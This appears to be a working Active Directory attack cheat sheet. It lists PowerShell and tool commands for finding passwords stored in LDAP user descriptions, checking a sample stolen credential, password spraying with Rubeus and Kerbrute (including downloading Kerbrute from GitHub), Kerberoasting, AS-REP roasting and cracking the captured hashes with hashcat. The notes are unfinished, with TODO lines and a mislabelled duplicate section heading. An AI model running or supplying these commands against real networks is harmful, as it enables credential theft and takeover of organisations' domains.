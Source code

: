 # 1. Sensitive Data in LDAP

## Start ADExplorer and search through the AD for sensitive information
`PS> adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`PS> .\ADRecon.ps1
PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
`function Test-ADCredential {
    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}`

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
`PS> .\Rubeus.exe brute /password:Start123!`

### Use Kerbrute
`PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`PS> Import-Module .\PowerView.ps1`

`PS> (Get-NetUser | select samAccountName).samAccountName > users.txt`

`PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
PS> Import-Module .\PowerView.ps1

PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt

## Crack TGS tickets
PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset 

PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset

### Rubeus
PS> .\Rubeus.exe asreproast

### Invoke-ASREPRoast
PS> Import-Module .\Invoke-ASREPRoast.ps1

PS> Invoke-ASREPRoast

## ASREPRoasting
### Rubeus
PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt

### Invoke-ASREPRoast
PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt

## Cracking AS-REP hash with Hashcat
PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt
